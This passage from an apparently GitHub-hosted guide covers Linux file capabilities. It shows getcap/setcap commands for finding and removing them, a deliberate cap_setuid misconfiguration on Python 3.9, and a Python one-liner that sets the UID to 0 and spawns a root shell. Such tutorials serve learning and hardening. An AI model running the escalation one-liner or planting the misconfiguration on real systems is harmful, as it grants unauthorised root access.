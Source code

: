 | `cap_net_raw+ep`         | Use raw sockets                | Can sniff network traffic or launch network attacks       |
## Finding, Confirming and Removing Capabilities

### **Finding All Binaries with Capabilities**

To list all binaries that have special capabilities, use:

```bash
getcap -r / 2> /dev/null
```

### **Confirming the Capability**

To verify that Python 3.9 has the `cap_dac_override` capability, execute:

```bash
getcap /usr/bin/python3.9
```


### **Removing the Capability**

To remove the `cap_dac_override` capability from Python 3.9, use:

```bash
setcap -r /usr/bin/python3.9
```


# **Capabilities for Privilege Escalation**

In the following, We have only showed Misconfiguration and Exploitation for finding, checking, description you can refer to [Finding, Confirming and Removing Capabilities ](#Finding,%20Confirming%20and%20Removing%20Capabilities) and for [Reference](#Reference)

## cap_setuid

#### Misconfiguring

```bash
setcap cap_setuid+ep /usr/bin/python3.9
```

#### Exploiting

By leveraging the `cap_setuid` capability, an attacker can escalate privileges with the following command:

```bash
/usr/bin/python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This executes a Python command that changes the user ID to `0` (root) and spawns a root shell.

## cap_setgid
